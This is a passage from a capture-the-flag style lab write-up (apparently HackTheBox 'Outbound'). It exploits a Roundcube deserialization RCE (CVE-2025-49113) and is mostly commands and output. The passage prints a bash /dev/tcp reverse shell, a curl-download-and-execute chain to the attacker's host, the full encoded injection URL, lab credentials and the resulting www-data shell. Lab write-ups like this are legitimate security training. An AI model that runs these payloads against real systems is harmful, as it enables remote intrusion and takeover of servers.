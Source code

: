 So let's get the reverse shell with this remote command execution
```
make a exploit.sh
/bin/bash -i >& /dev/tcp/10.10.14.16/443 0>&1

open your netcat to listen

┌──(wither㉿localhost)-[~/Templates/htb-labs/Outbound/CVE-2025-49113]
└─$ php CVE-2025-49113.php http://mail.outbound.htb/ tyler LhKL1o9Nm3X2 "curl 10.10.14.16/exploit.sh -o /tmp/wither.sh && chmod +x /tmp/wither.sh && /bin/bash -c /tmp/wither.sh"
### Roundcube ≤ 1.6.10 Post-Auth RCE via PHP Object Deserialization [CVE-2025-49113]

### Retrieving CSRF token and session cookie...

### Authenticating user: tyler

### Authentication successful

### Command to be executed: 
curl 10.10.14.16/exploit.sh -o /tmp/wither.sh && chmod +x /tmp/wither.sh && /bin/bash -c /tmp/wither.sh

### Injecting payload...

### End payload: http://mail.outbound.htb//?_from=edit-%21%C0%22%C0%3B%C0i%C0%3A%C00%C0%3B%C0O%C0%3A%C01%C06%C0%3A%C0%22%C0C%C0r%C0y%C0p%C0t%C0_%C0G%C0P%C0G%C0_%C0E%C0n%C0g%C0i%C0n%C0e%C0%22%C0%3A%C01%C0%3A%C0%7B%C0S%C0%3A%C02%C06%C0%3A%C0%22%C0%5C%C00%C00%C0C%C0r%C0y%C0p%C0t%C0_%C0G%C0P%C0G%C0_%C0E%C0n%C0g%C0i%C0n%C0e%C0%5C%C00%C00%C0_%C0g%C0p%C0g%C0c%C0o%C0n%C0f%C0%22%C0%3B%C0S%C0%3A%C01%C00%C05%C0%3A%C0%22%C0c%C0u%C0r%C0l%C0+%C01%C00%C0%5C%C02%C0e%C01%C00%C0%5C%C02%C0e%C01%C04%C0%5C%C02%C0e%C01%C06%C0%2F%C0e%C0x%C0p%C0l%C0o%C0i%C0t%C0%5C%C02%C0e%C0s%C0h%C0+%C0-%C0o%C0+%C0%2F%C0t%C0m%C0p%C0%2F%C0w%C0i%C0t%C0h%C0e%C0r%C0%5C%C02%C0e%C0s%C0h%C0+%C0%26%C0%26%C0+%C0c%C0h%C0m%C0o%C0d%C0+%C0%2B%C0x%C0+%C0%2F%C0t%C0m%C0p%C0%2F%C0w%C0i%C0t%C0h%C0e%C0r%C0%5C%C02%C0e%C0s%C0h%C0+%C0%26%C0%26%C0+%C0%2F%C0b%C0i%C0n%C0%2F%C0b%C0a%C0s%C0h%C0+%C0-%C0c%C0+%C0%2F%C0t%C0m%C0p%C0%2F%C0w%C0i%C0t%C0h%C0e%C0r%C0%5C%C02%C0e%C0s%C0h%C0%3B%C0%23%C0%22%C0%3B%C0%7D%C0i%C0%3A%C00%C0%3B%C0b%C0%3A%C00%C0%3B%C0%7D%C0%22%C0%3B%C0%7D%C0%7D%C0&_task=settings&_framed=1&_remote=1&_id=1&_uploadid=1&_unlock=1&_action=upload

### Payload injected successfully

### Executing payload...
```

Then we can get the reverse shell as `www-data`
```
┌──(wither㉿localhost)-[~/Templates/htb-labs/Outbound/CVE-2025-49113]
└─$ nc -lnvp 443                               
listening on [any] 443 ...
connect to [10.10.14.16] from (UNKNOWN) [10.10.11.77] 56434
bash: cannot set terminal process group (246): Inappropriate ioctl for device
bash: no job control in this shell
www-data@mail:/var/www/html/roundcube/public_html$ 
```
